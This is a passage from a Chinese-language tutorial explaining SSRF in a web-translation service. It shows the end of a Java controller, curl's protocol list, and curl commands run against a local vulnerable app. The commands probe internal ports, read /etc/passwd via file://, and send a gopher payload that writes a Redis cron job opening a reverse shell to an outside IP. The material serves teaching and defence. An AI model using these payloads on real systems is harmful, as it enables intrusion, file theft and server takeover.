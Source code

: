 ```java
            }

        }catch (Exception e) {
            e.printStackTrace();
        }finally {
            if (inputStream != null) {
                inputStream.close();
            }
            if (outputStream != null) {
                outputStream.close();
            }

        }
    }

    public static void main(String[] args) throws Exception {
        SpringApplication.run(SecController.class, args);
    }
}
```

了解了“网页翻译”服务背后的代码逻辑之后，那我们可以猜测开篇的例子是因为请求服务（`Request Service`）最起码就支持`HTTP[S]`和`file`协议，我们再跟进去看看还支持哪些协议呢？

## 0x03 漏洞复现

#### 漏洞原理

**请求服务（`Request Service`）支持`HTTP[S]`协议，并且同时也默认支持了其它协议。**

这也就导致了最开始例子中的情况，我们填入的一个`file`协议的链接，他就按照`file`协议去读取了对应文件的内容。

既然支持`HTTP[S]`和`file`协议，那是否还支持其它的协议呢？我们来一探究竟：

我们先看看PHP的cURL方法，我们知道PHP的`cURL`模块是基于服务器的`curl`，通过查看`curl`的版本信息，我们可以看到`curl`默认支持的协议有哪些：

```bash
$ curl -V
curl 7.47.1 (x86_64-apple-darwin15.3.0) libcurl/7.47.1 OpenSSL/1.0.2h zlib/1.2.8
Protocols: dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: IPv6 Largefile NTLM NTLM_WB SSL libz TLS-SRP UnixSockets
```
我们看到，它支持的协议非常多：`dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp`，那我们可以根据这些协议想想看都能干什么呢？

#### 攻击复现

> 我们将”漏洞代码“部署到本机后，我们来测试下几种协议在本机的复现情况：

```
# HTTP协议：构造一个探测请求，以请求的响应时间来判断某个IP的端口是否开启状态
curl http://127.0.0.1/ssrf_01?url=http://10.11.12.13:80

# FILE协议：构造一个探测请求，读取任意文件
curl http://127.0.0.1/ssrf_01?url=file:///etc/passwd

# GOPHER协议：构造一个攻击请求，写入cron到某台内网Redis服务器，反弹SHELL得到服务器权限
curl -vvv 'http://127.0.0.1/ssrf_01?url=http://feei.cn/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0  
a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  
%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3
%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```
